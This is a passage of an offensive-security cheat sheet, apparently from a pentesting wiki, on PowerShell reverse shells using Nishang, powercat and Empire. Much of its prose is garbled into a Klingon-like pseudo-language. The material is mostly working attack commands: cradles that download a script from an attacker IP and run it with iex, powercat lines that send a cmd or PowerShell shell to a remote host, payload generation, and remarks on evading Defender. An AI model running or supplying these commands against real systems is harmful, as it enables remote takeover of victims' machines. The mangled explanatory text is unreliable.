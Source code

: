 [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

In the **Shells** folder, there are a lot of different shells. To download and execute Invoke-_PowerShellTcp.ps1_, make a copy of the script and append to the end of the file:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.2.0.5 -Port 4444
```
Start serving the script in a web server and execute it on the victim's end:

Qa'vam script vItlhutlh web server 'ej vItlhutlh 'oH victim's end:
```
powershell -exec bypass -c "iwr('http://10.11.0.134/shell2.ps1')|iex"
```
Defender jatlhpu'wI' jatlhpu' 'e' vItlhutlh (vaj, 3/04/2019).

**TODO: nISang shells lo'wI' jaH**

### **PS-Powercat**

[**https://github.com/besimorhino/powercat**](https://github.com/besimorhino/powercat)

Download, web server vItlhutlh, listener vItlhutlh, 'ej vItlhutlh victim's end:
```
powershell -exec bypass -c "iwr('http://10.2.0.5/powercat.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
Defender jatlhpu'wI' malja' (vaj, 3/04/2019).

**powercat toQDuj:**

Bind shells, Reverse shell (TCP, UDP, DNS), Port redirect, upload/download, Generate payloads, Serve files...
```
Serve a cmd Shell:
powercat -l -p 443 -e cmd
Send a cmd Shell:
powercat -c 10.1.1.1 -p 443 -e cmd
Send a powershell:
powercat -c 10.1.1.1 -p 443 -ep
Send a powershell UDP:
powercat -c 10.1.1.1 -p 443 -ep -u
TCP Listener to TCP Client Relay:
powercat -l -p 8000 -r tcp:10.1.1.16:443
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
powercat -c 10.1.1.15 -p 443 -e cmd -g
Start A Persistent Server That Serves a File:
powercat -l -p 443 -i C:\inputfile -rep
```
### Empire

[https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

**tlhIngan Hol:**

**Qapla'!** [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

**powershell** launcher yIlo'lu', **file** vItlhutlh je, **download** je **execute**.
```
powershell -exec bypass -c "iwr('http://10.2.0.5/launcher.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
**Qa'leghvam vItlhutlh**
